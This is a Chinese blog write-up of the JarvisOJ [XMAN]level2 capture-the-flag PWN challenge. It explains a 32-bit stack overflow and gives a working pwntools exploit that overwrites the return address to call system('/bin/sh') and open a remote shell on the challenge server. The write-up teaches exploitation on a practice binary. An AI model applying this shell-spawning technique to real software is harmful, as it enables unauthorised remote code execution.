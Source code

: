 ```yaml
---
title: XMAN level2 の Write-Up
date: 2020-05-01 20:45:46
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- XMAN
- Stack
---
```

## Introduction

&emsp;&emsp;这是JarvisOJ的PWN题部分[XMAN]level2的Write-Up，题目难度不大，还是栈溢出覆盖返回地址，不过涉及到二次覆盖。可是由于这是32位程序，加上没有什么保护措施，其实这个二次覆盖也很简单，适合Rookie详细了解PWN的机制。

<!-- more -->

## Step 1

&emsp;&emsp;还是一样的套路，checksec：32位程序，没有什么特殊的保护措施：

![](/img/XMAN-level2/XMAN1.png)

&emsp;&emsp;程序运行如下图所示：

![](/img/XMAN-level2/XMAN2.png)

## Step 2

&emsp;&emsp;将程序拖到hopper disassembler中，还是熟悉的vulnerable_function函数，这次不同的是不再有callsystem函数直接利用了：

![](/img/XMAN-level2/XMAN3.png)

&emsp;&emsp;但是发现存在system函数：

![](/img/XMAN-level2/XMAN4.png)

&emsp;&emsp;所以需要调用这个函数传入参数，如“/bin/sh”，我们在程序里找一下有木有这个字符串：

![](/img/XMAN-level2/XMAN5.png)

&emsp;&emsp;果然在数据中找到hint，这样思路就完整了。利用vulnerable_function函数的栈溢出覆盖返回地址，使得程序跳转到system函数，然后覆盖这个函数jmp到的GOT表地址为数据中的“/bin/sh”即可，下图为system函数的汇编代码：

![](/img/XMAN-level2/XMAN6.png)

## Step 3

&emsp;&emsp;最后就是EXP的编写了，下面给出代码：

```Python
from pwn import *

# sh = process('./level2')
sh = remote('pwn2.jarvisoj.com', 9878)

elf = ELF('./level2')

sys_addr = elf.symbols['system']

shell_addr = elf.search('/bin/sh').next()

payload = 'a' * (0x88 + 0x4) + p32(sys_addr) + p32(0xaaaaaaaa) + p32(shell_addr)

sh.send(payload)

sh.interactive()
sh.close()
```

&emsp;&emsp;有两个地方需要稍微注意一下：

* 寻找’/bin/sh’时我是通过pwntools库ELF模块的search方法直接在程序中找（通过之前的分析确定程序中存在’/bin/sh’），其实由于Step 1中通过checksec发现程序并没有开启内存地址随机化保护，所以这里也可以替换成具体的’/bin/sh’地址（0x0804a024）

* 在构造payload的时候，跳转到system函数覆盖GOT表地址之前还需要给出system函数的返回地址，即0xaaaaaaaa

&emsp;&emsp;执行EXP即可获得最终flag：

![](/img/XMAN-level2/XMAN7.png)
